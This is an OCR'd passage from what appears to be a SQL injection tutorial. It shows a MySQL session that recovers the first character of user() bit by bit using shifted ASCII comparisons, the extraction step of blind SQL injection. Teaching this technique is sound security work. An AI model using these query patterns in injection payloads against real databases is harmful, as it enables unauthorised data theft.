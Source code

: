 | (ascii((substr(user(),1,1))) >> 2)=28 |

+---------------------------------------+

|                                     1 |

+---------------------------------------+

1 row in set (0.00 sec)

011100??

Options:
0111000 = 56
0111001 = 57

mysql> select (ascii((substr(user(),1,1))) >> 1)=56;

+---------------------------------------+

| (ascii((substr(user(),1,1))) >> 1)=56 |

+---------------------------------------+

|                                     0 |

+---------------------------------------+

1 row in set (0.00 sec)

0111001?
Options:
01110010 = 114
01110011 = 115

mysql> select (ascii((substr(user(),1,1))) >> 0)=114;

+----------------------------------------+

| (ascii((substr(user(),1,1))) >> 0)=114 |

+----------------------------------------+

|                                      1 |

+----------------------------------------+

1 row in set (0.00 sec)

Alright, so the binary representation of the character is:
01110010

Converting it back gives us:

mysql> select b'01110010';

+-------------+

| b'01110010' |
